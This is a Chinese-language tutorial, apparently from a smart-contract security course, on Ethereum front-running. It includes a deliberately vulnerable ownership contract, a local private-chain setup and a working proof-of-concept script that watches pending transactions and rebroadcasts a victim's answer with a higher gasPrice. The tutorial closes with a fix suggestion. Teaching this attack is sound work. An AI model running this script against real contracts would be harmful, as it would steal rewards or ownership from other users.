





# 07.Front Running - 提前交易

## 漏洞等级
**高危** (具体参考实际情况)

## 漏洞成因
`提前交易`漏洞, 是因为区块链本身的特性:需要先进行区块挖掘,才能将未完成交易进行记账。同时，在以太坊中，矿工会优先选择gasPrice高的交易进行记账，又因为区块链中的交易信息可以被所有人查看，那么攻击者就可以获取到受害者发送的消息，然后攻击者提高gasPrice进行交易，由此可以抢先受害者进行交易（如果未进行消息加密、签名）。

# gasPrice 相关知识 
> 通俗来讲,gasPrice 越高,交易越优先被打包

>Gas 是什么？
>Gas 翻译成中文就是“燃气”，是以太坊世界的燃料，它决定了以太坊网络生态系统的正常运行。
>
>Gas 用来衡量执行某些动作需要多少“工作量”，这些“工作量”就是为了执行该动作支付给网络的费用额。通俗理解，>Gas 是给矿工的佣金，并以 ETH 支付，无论是交易、执行智能合约并启动 DApps，还是支付数据存储费用，都需要用到 Gas。
>
>Gas由两个部分组成： 限制（Gas limit）和价格（Gas Price）
> Gas Limit 是用户愿意为执行某个操作或确认交易支付的最大Gas量（最少21,000）。Gas Price 是 Gwei 的数量，用户愿意花费于每个 Gas 单位的价钱。
>
>当进行每笔交易时，发送人设定Gas Limit 和Gas Price，将 Gas Limit*Gas Price ，就得到了ETH交易佣金的成本。
> gas limit 对相同工作量的交易几乎是固定的,话费不完的gas是返还的,那么Gas Price越高,矿工就会得到越高的收益,也就有越优先打包你的交易。


## 漏洞危害
在某些条件下会造成受害者损失。比如`问答社区`，`第一个`回答正确的人会`获得奖励`，本来攻击者不知道这道题的答案，但是攻击者`监听所有到达目标地址的交易`，寻找发送答案过来的交易，自己产生一个`相同答案的交易`并且`提高gasPrice`进行发送，在新区块产生后，攻击者交易就很可能`优先记账`（并不是一定成功，涉及新区块产出以及网络传输时间），成为第一个回答问题的人，从而`截获奖励`。

## 漏洞测试方法

### 环境依赖
```
cat /etc/issue
#Ubuntu 16.04.3 LTS

node --version
#v10.2.1

truffle version
#Truffle v4.1.11 (core: 4.1.11)
#Solidity v0.4.24 (solc-js)
```
### 环境安装
```
sudo apt-get install nodejs
sudo apt install nodejs-legacy
sudo apt install npm
sudo npm install n -g
sudo n stable

npm install -g truffle
```
### 相关配置文件/代码

####  创世区块配置
genesis.json
```
{
  "config": {
        "chainId": 100,
        "homesteadBlock": 0,
        "eip155Block": 0,
        "eip158Block": 0
    },
  "coinbase"   : "0x0000000000000000000000000000000000000000",
  "difficulty" : "0x80000",//这个难度相对适中,刚好可以满足本次攻击需要的pending时间
  "extraData"  : "",
  "gasLimit"   : "0x8000000",
  "nonce"      : "0x0000000000000042",
  "mixhash"    : "0x0000000000000000000000000000000000000000000000000000000000000000",
  "parentHash" : "0x0000000000000000000000000000000000000000000000000000000000000000",
  "timestamp"  : "0x00",
  "alloc": {//先给预设好的两个账户100ether,用于部署合约/发送交易
    "f38dd6a176ca778f770644bb35cce7de59b8c7d9": {"balance": "100000000000000000000"},
    "78d18e594b101d08cfc6c9f5a64be11db9139aca": {"balance": "100000000000000000000"}
   }
}
```
#### 被攻击合约

FrontRunning.sol

第一个解开问题的人,就可以成为本合约的拥有者

```
pragma solidity ^0.4.16;

contract FrontRunning{
    //合约onwer
    address public owner;
    //回答对问题的人可以成为onwer
    uint public Number;

    function FrontRunning()
        public
    {
        //这里赋值默认值0x0,方便攻击结果展示
        owner = "0x0";
        // 本合约的默认问题
        Number = 21430243648696319834371;//1516416161611*14132165161
    }
    //能够回答出两个数乘积等于Number烦人就可以成为新onwer,并且修改问题
    function changeOwner(uint prime1,uint prime2, uint new_number)
        public
    {
        require(Number == prime1 * prime2);
        Number = new_number;
        owner = msg.sender;    
    }
}
```

#### 启动本地以太坊私链
 run_eth.sh
 
```
// 部署创世区块
geth init genesis.json --datadir ./chain

// 启动本地私链 监听 8545端口 ,使用--keystore加载外部账户
geth   --identity "self_chain"   --rpcaddr 0.0.0.0   --rpc   --rpcport 8545   --maxpeers 10   --rpcapi "txpool, debug, rpc, personal, admin, eth, miner, net, web3"   --networkid 100   --datadir "./chain"   --nodiscover --keystore ./keystore

```
#### 部署合约代码
1_deploy_contract.js 

```
//开始区块挖掘(才能部署合约)
miner.start()
// 设置默认账户是 account[0]
web3.eth.defaultAccount = web3.eth.accounts[0];

// 将两组账号都进行解锁(才能交发起易)
personal.unlockAccount(personal.listAccounts[0],"",99999)
personal.unlockAccount(personal.listAccounts[1],"",99999)

//以下部分代码由remix - IDE生成
var frontrunningContract = web3.eth.contract([{"constant":true,"inputs":[],"name":"Number","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"owner","outputs":[{"name":"","type":"address"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[{"name":"prime1","type":"uint256"},{"name":"prime2","type":"uint256"},{"name":"new_number","type":"uint256"}],"name":"changeOwner","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"inputs":[],"payable":false,"stateMutability":"nonpayable","type":"constructor"}]);
var frontrunning = frontrunningContract.new(
   {
     from: web3.eth.accounts[0],
     data: '0x608060405234801561001057600080fd5b5060008060006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550690489bc5fc031373979036001819055506101d4806100726000396000f300608060405260043610610057576000357c0100000000000000000000000000000000000000000000000000000000900463ffffffff168063624de7251461005c5780638da5cb5b14610087578063c7e2b664146100de575b600080fd5b34801561006857600080fd5b5061007161011f565b6040518082815260200191505060405180910390f35b34801561009357600080fd5b5061009c610125565b604051808273ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200191505060405180910390f35b3480156100ea57600080fd5b5061011d60048036038101908080359060200190929190803590602001909291908035906020019092919050505061014a565b005b60015481565b6000809054906101000a900473ffffffffffffffffffffffffffffffffffffffff1681565b81830260015414151561015c57600080fd5b80600181905550336000806101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff1602179055505050505600a165627a7a72305820642f9f8e1e2c77d647d89b4000f5aa36119315c511293dbc56703369df66ed430029',
     gas: '4700000'
   }, function (e, contract){
    console.log(e, contract);
    if (typeof contract.address !== 'undefined') {
         console.log('Contract mined! address: ' + contract.address + ' transactionHash: ' + contract.transactionHash);
    }
})

```


#### 攻击者监听交易并且提前交易
2_poc.js
```
var loop_id;
var run_flag = 1; //是否抢先发送多次,默认只发送一次,然后置0
loop_id = setInterval(loop,1000); // 循环检测txpool中正在pending(未打包)的交易

// 因为攻击者不知道真正的答案,但是他又想成为onwer,除了暴力破解就是偷取其他人的答案
// 遍历当前未打包交易,寻找发送到 frontrunning 合约的交易,且调用changeOwner(uint prime1,uint prime2, uint new_number)的交易
//  获取该交易的input数据,增加gasPrice后使用account[1]进行重新广播交易
function loop(){   
    if (run_flag == 0) {
        clearInterval(loop_id);
        return 0;
    };
    console.log("run_flag:",run_flag);
    // 获取未打包交易
    content = txpool.content;
    // 提取pengding部分数据
    pending = content.pending;
  //获取所有交易的发出地址的数组
    addr_keys = Object.keys(pending);
  // 循环地址数组进行取出每一笔TX(交易)
    for (var addr_key_i = 0;addr_key_i < addr_keys.length && run_flag == 1;addr_key_i + 1){
        addr_key = addr_keys[addr_key_i];
        
        //console.log(addr_key);
        pending_tx = pending[addr_key];
        
        tx_keys = Object.keys(pending_tx);
        
        for (var tx_key_i = 0;tx_key_i < tx_keys.length && run_flag == 1; tx_key_i + 1){
        
            tx_key = tx_keys[tx_key_i];
            console.log(tx_key);
            tx_data = pending_tx[tx_key];

            // 如果已经已经攻击过了
            // 接收方是frontrunning
            // 而且发送方不是本人
            // 且开头是"0xc7e2b664"     byte4(keccak("changeOwner(uint,uint, uint)"))
            if (run_flag == 1 && tx_data.to == frontrunning.address
                && tx_data.from != web3.eth.accounts[1]
                && tx_data.input.slice(0,10)=="0xc7e2b664"){
                
                    console.log(tx_data.gasPrice + 10);
                    
                    web3.eth.sendTransaction({
                        from: web3.eth.accounts[1],//使用accounts[1]广播交易
                        to: tx_data.to,
                        data: tx_data.input,
                        gasPrice: tx_data.gasPrice + 10//增加gasPrice
                    },function(err, address) {
                        if (!err){
                            console.log("Send TX Result");
                            console.log(address);  
                            clearInterval(loop_id);
                        }
                    });
                    //消息发送完毕,run_flag置零
                    run_flag = 0;
              }
    
        };
    };
}
```

#### 正常用户调用合约
3_victim_changeOwner.js
```
//查看合约当前的owner
frontrunning.owner();
//defaultAccount = accounts[0]发起回答问题的消息(交易)
frontrunning.changeOwner(1516416161611,14132165161,2);
```

### 使用 
```
git clone https://github.com/UUUUnotfound/DASP_TOP_10_Tutorial.git

cd DASP_TOP_10_Tutorial/07.Front_Running/Front_Running

./run_eth.sh
```



打开新窗口
`/geth_attach.sh`


我们本地已经初始化了两个账户:




`FrontRunning`合约的部署,以及`victim`发送答案都是使用
`eth.accounts[0]:"0xf38dd6a176ca778f770644bb35cce7de59b8c7d9"`
只有攻击者2_poc.js使用的`eth.accounts[1]:"0x78d18e594b101d08cfc6c9f5a64be11db9139aca"`

`loadScript("1_deploy_contract.js")`
等待合约部署完成


`loadScript("2_poc.js")`




`loadScript("3_victim_changeOwner.js")`



可以看到当前合约的`owner`是默认值 `0x0000000000000000000000000000000000000000`
如果poc执行成功,攻击者`eth.accounts[1]:"0x78d18e594b101d08cfc6c9f5a64be11db9139aca"`将会成为owner




## 修复建议

1. 对合约发送的消息进行加密处理，不要泄露真实的信息，合约可以接收消息签名后的hash，记录交易的信息，然后再接收交易的详情，从而避免恶意用户进行消息窃取以及消息重放。


> 参考:
>
>[DASP - TOP 10](https://www.dasp.co/)
>
>[github:not-so-smart-contracts/reentrancy](https://github.com/trailofbits/not-so-smart-contracts/tree/master/reentrancy)
>
>[以太坊智能合约安全入门了解一下（下）](http://rickgray.me/2018/05/26/ethereum-smart-contracts-vulnerabilities-review-part2/#7-Front-Running-提前交易)

Contact me: **root@blockchain-security.info**
